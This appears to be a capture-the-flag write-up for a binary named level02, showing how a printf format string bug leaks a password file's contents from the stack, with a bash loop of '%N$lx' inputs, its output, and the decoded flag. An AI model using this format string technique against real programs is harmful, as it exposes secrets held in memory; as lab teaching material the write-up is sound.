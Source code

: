 
In this program, the vulnerability we will exploit is in the printf function.
```c
printf(&var);
```
which will allow us to read from the stack, considering that the flag is also located in the stack.

```c
FILE* rax = fopen("/home/users/level03/.pass", &data_400bb0);
    if (rax == 0)
    {
        fwrite("ERROR: failed to open password f…", 1, 0x24, stderr);
        exit(1);
        /* no return */
    }
    int32_t rax_1 = fread(&var_a8, 1, 0x29, rax);
```

```asm
Dump of assembler code for function main:
   0x0000000000400814 <+0>:     push   %rbp
   0x0000000000400815 <+1>:     mov    %rsp,%rbp
   0x0000000000400818 <+4>:     sub    $0x120,%rsp
```

Therefore, knowing that my stack has a size of 0x120 (288) and that we are in 64 bits, we know that the flag will be within the range of 0-36.

```
for i in {1..36}; do echo -n "$i " && echo "%${i}\$lx" | ./level02 | awk 'NR==6'; done
1 7fffffffe4f0 does not have access!
2 0 does not have access!
3 0 does not have access!
4 2a2a2a2a2a2a2a2a does not have access!
5 2a2a2a2a2a2a2a2a does not have access!
6 7fffffffe6e8 does not have access!
7 1f7ff9a08 does not have access!
8 0 does not have access!
9 0 does not have access!
10 0 does not have access!
11 0 does not have access!
12 0 does not have access!
13 0 does not have access!
14 0 does not have access!
15 0 does not have access!
16 0 does not have access!
17 0 does not have access!
18 0 does not have access!
19 0 does not have access!
20 100000000 does not have access!
21 0 does not have access!
22 756e505234376848 does not have access! <-------------------------
23 45414a3561733951 does not have access!
24 377a7143574e6758 does not have access!
25 354a35686e475873 does not have access!
26 48336750664b394d does not have access! <-------------------------
27 0 does not have access!
28 786c24383225 does not have access!
29 0 does not have access!
30 0 does not have access!
31 0 does not have access!
32 0 does not have access!
33 0 does not have access!
34 0 does not have access!
35 0 does not have access!
36 0 does not have access!
```

We can see that from 22 to 26, we have a sequence of elements, and our flags consist of 40 bytes (5 * 8). It's convenient since we have a sequence of 5.
Knowing that we are in little endian, if we convert it to ASCII, we retrieve our flag.

```
756e505234376848 become "Hh74RPnu"
45414a3561733951 become "Q9sa5JAE"
377a7143574e6758 become "XgNWCqz7"
354a35686e475873 become "sXGnh5J5"
48336750664b394d become "M9KfPg3H"
```

flag: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H